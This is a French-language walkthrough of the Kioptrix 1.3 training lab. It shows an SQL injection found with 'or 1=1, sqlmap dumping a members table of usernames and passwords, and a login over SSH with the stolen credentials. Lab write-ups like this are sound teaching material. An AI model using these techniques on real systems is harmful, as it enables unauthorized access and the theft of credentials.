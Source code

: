 ## Exploitation 

### Site Web : 
Un site tourne sur la cible. En l'ouvrant voici ce que je trouve : 
![pwn]({{ site.baseurl }}/images/kioptrix13.png){:class="img-responsive"} 

J'obtiens une erreur de Mysql en insérant ``'or 1=1`` dans le champ du mot de passe. Avec ZAP proxy je vais récupérer les informations de la requête pour ensuite utiliser SQLmap : 
```bash
POST http://192.168.122.133/checklogin.php HTTP/1.1
Host: 192.168.122.133
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.122.133/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
myusername=loneferret&mypassword=lol&Submit=Login
```
Maintenant nous allons utiliser SQLmap pour dumper les données: 

```bash
root@Kali:~/kiopitrix-1-3# sqlmap -u "http://192.168.122.133/checklogin.php" --method POST --data 'myusername=loneferret&mypassword=lol&Submit=Login' --dump     
....
....
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+

[10:10:55] [INFO] table 'members.members' dumped to CSV file '/root/.sqlmap/output/192.
168.122.133/dump/members/members.csv'
[10:10:55] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168
.122.133'

[*] shutting down at 10:10:55

```
### Intrusion dans le système 

Je pars du principe que l'homme est le maillon faible de la chaîne de sécurité. Je vais donc utiliser les deux mots de passe trouvé ici pour me connecter directement à SSH. 
```bash
root@Kali:~/kiopitrix-1-3# ssh john@192.168.122.133
The authenticity of host '192.168.122.133 (192.168.122.133)' can't be established.     
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
Are you sure you want to continue connecting (yes/no)? yes 
Warning: Permanently added '192.168.122.133' (RSA) to the list of known hosts.
john@192.168.122.133's password:
Welcome to LigGoat Security Systems - We are Watching   
== Welcome LigGoat Employee ==  
LigGoat Shell is in place so you  don't screw up 
Type '?' or 'help' to get the list of allowed commands  
john:~$ ? 
cd  clear  echo  exit  help  ll  lpath  ls 
```